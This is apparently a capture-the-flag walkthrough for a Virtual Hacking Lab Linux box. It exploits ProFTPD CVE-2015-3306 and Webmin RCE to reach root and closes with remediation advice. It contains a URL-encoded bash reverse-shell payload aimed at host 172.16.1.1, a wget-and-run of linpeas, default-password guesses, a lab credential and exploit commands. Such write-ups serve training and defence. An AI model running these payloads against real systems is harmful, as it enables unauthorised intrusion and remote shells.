#  VPS1723 V2 - Virtual Hacking Lab

| Info          | Details                                                        |
| ------------- | -------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                            |
| Difficulty    | Beginner                                                       |
| Target IP     | 10.11.1.53                                                     |
| OS            | Linux                                                          |
| Vulnerability | ProFTPD RCE (CVE-2015-3306), Credential Disclosure, Webmin RCE |
| Tools Used    | Nmap, Gobuster, Searchsploit, Netcat, LinPEAS                  |

## Attack Path

1. Nmap identified ProFTPD, HTTP, and Webmin services.
2. ProFTPD 1.3.5 found vulnerable to **CVE-2015-3306**.
3. Exploit used to upload backdoor and gain shell.
4. Initial access obtained as **www-data**.
5. Credentials discovered in `/opt/webmin`.
6. Logged into Webmin panel.
7. Webmin RCE exploited for privilege escalation.
8. Root shell obtained.
9. Flag retrieved.

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir VPS1723_V2
cd VPS1723_V2
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```
## Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.53'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: Discovered port 21, 22, 80, 81, 10000

## FTP enumeration

Attempt anonymous login:

```bash
ftp $ip
anonymous::anonymous
```



Results: Anonymous login failed. 

Vulnerability search the `ProFTPD 1.3.5`

```bash
searchsploit ProFTPD 1.3.5
```



Result: Identified vulnerability - `CVE-2015-3306 – ProFTPD mod_copy RCE`
## Web Enumeration

Web App page: Default Ubuntu Page



Directory brute forcing with Gobuster and dirsearch.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```

Gobuster:



Results: No interesting **directories** discovered.

## Further Web Enumeration

Port 81: A pop up login interface



Port 10000: - Webmin administrative interface identified.



Try weak password:

```bash
admin::admin
webmin::webmin
root::root
admin::password
```

Results:  Initial login attempts failed.

## Exploitation – ProFTPD RCE

Exploit used: with ProFTPD 1.3.5

```bash
# found one on github
git clone https://github.com/t0kx/exploit-CVE-2015-3306.git

cd exploit-CVE-2015-3306

# Execute exploit:
python3 exploit.py --host 10.11.1.53 --port 21 --path /var/www/html
```



Results: Testing command with whoami, and successfully received the results as **www-data**

```bash
# trigger the rce payload
http://10.11.1.53/backdoor.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/172.16.1.1/4444%200%3E%261%27

# Start a nc listener
sudo nc -lnvp 4444
```



Results: Reverse shell obtained and identify user as www-data
# Linux Privilege Escalation Enumeration

Manual enumeration yielded limited results.

Automated enumeration:

```bash
# if still dont have any useful information
wget http://172.16.1.1/linpeas.sh && chmod +x linpeas.sh
./linpeas.sh
```



Results: Sensitive data discovered in: `/opt/webmin`

While enumerating /opt/webmin. found the users and password for webmin



Results: found demouser::x8rqsPHQ6X98A

Navigate to `http://10.11.1.53:10000` and try to login with the credentials



Results: Shown successful authentication.

## Privilege Escalation - Webmin RCE

While early doing vulnerability search found it could priv esc with this vulnerabilities.

```bash
# Exploit used:
git clone https://github.com/esp0xdeadbeef/rce_webmin.git

cd rce-webmin

# Execute exploit
python3 exploit.py --url http://10.11.1.53:10000 -pw x8rqsPHQ6X98A -un demouser -rh 172.16.1.1 -rp 4444

# open a listener
sudo nc -lnvp 4444

#Upgrade shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



Results: Successfully got a reverse shell. And identify the user is root.

```bash
whoami
id
date
cat /root/key.txt
```



Results: Successfully retrieved flag.

# Remediation

### 1. Patch Vulnerable Services

- Upgrade ProFTPD to a secure version.
- Apply patches for: `CVE-2015-3306`
- Update Webmin to the latest version.

---

### 2. Restrict Service Exposure

- Limit access to: Port 10000 (Webmin)
- Use firewall rules or VPN-only access.

---

### 3. Secure Sensitive Directories

- Restrict access to: `/opt/webmin`
- Store credentials securely with proper permissions.
- 
---

### 4. Remove Unnecessary Services

- Disable unused services such as: `FTP` (if not required)

---
